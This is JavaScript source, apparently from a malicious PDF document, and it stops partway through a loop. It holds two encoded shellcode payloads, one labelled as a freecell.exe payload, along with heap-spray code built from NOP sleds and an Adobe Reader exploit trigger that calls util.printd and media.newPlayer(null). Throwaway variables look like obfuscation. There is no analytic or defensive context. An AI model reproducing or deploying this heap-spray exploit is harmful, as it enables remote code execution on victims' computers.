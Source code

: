 ```javascript
			payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
			nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
            while (nopsled.length < chunk_size)
                nopsled += nopsled;
            nopsled_len = chunk_size - (payload.length + 20);        
            nopsled = nopsled.substring(0, nopsled_len);
            heap_chunks = new Array();
            for (var i = 0 ; i < 2500 ; i++)
                heap_chunks[i] = nopsled + payload;
 

            util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
            try {
                media.newPlayer(null);
            } catch(e) {}
            util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
}
var iF = function() {};

function cN() {
        var o = "o";
		// freecell.exe payload
        var payload = unescape("%uc929%u65b1%ud7db%u74d9%uf424%u83b8%u3830%u5b84%u4331%u0313%u1343%u6883%udacc%u8571%u413d%u6a30%u13f7%ub07d%u5c06%uc249%ube91%u3948%ud6a4%u4246%ud958%uf0e9%ubf3e%ucb93%uf8bc%u520a%u60a7%ubd5e%u804d%ub8b6%ub75a%u5391%uf6b0%ub933%uea10%ubade%u91ba%ud64b%u1fdb%ub411%ub731%u92ab%uf842%u2a7a%ua0b8%uc819%uc7af%u9bee%u7d10%u4e2e%u4201%u8a96%ude7c%ud1cb%u20f0%ue235%uf4e3%u33a8%u6fbe%u8396%u15b9%ub97f%ud56a%u2c92%uf698%ud416%u50c7%u7361%u386d%u1a83%ue308%u7fb1%u7a3f%u20ac%u90a8%u2d99%u544b%u1868%ucced%u8012%u7b51%u7bef%u4d0b%u4095%u10c6%udea5%ue327%u47ed%u9d3e%u28f4%u51cb%ucfd7%u746c%u8c04%u286b%u95cd%u4396%u0b57%u58e2%ue11e%u508a%uab14%uf7cf%uab12%ufb47%u96c3%u9932%ud41d%u3bda%u7d77%uf214%ub242%u636f%u299d%u2962%u7be8%u7fe4%ub283%ub18f%uee39%u7b09%ub7de%ue345%u8c16%u2e59%u59c0%u6fa5%u263f%uda5e%u8219%ua5d1%u54fc%u0474%u75fc%u53b1%u7f0b%u599a%u9409%u48e7%uf318%u71c6%uc930%u6317%u3126%ua923%u2249%ua830%u4247%uad22%u3340%ude7b%u9f86%ue365%u8693%ufdba%u5594%u0f8f%u59bf%u0de8%u74d9%u16ff%ua327%u1cf0%ub333%u021a%uda1c%u2831%u2868%u583f%u1c0a%u720b%u6af0%u8a62%u64fe%u8883%u7ecc%u83ab%u823a%ufd8c%u0ead%u8e59%uc117%u0c8e%u7204%ufeb6%ue3bc%u9a56%u9545%u10c3%u0698%ube7e%ub5ca%u6f07%u2a75%u0a8a%uc717%ub603%u44b8%u59bc%ue62b%uf459%u93d4%u658e%u377a%u14a6%ua20e%ue517%u49c0%u6cd0%u419d");
		this.dN = "";
        var nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A");
        var hW = new String();
        var heapblock = nop + payload;
        this.qA = "qA";
        var bigblock = unescape("%u0A0A%u0A0A");
        this.alphaY = 12267;
        var headersize = 20;
        var spray = headersize + heapblock.length;
        var jZ = '';
        var jY = "";
        while (bigblock.length < spray) {
                this.r = "r";
                bigblock += bigblock; 
```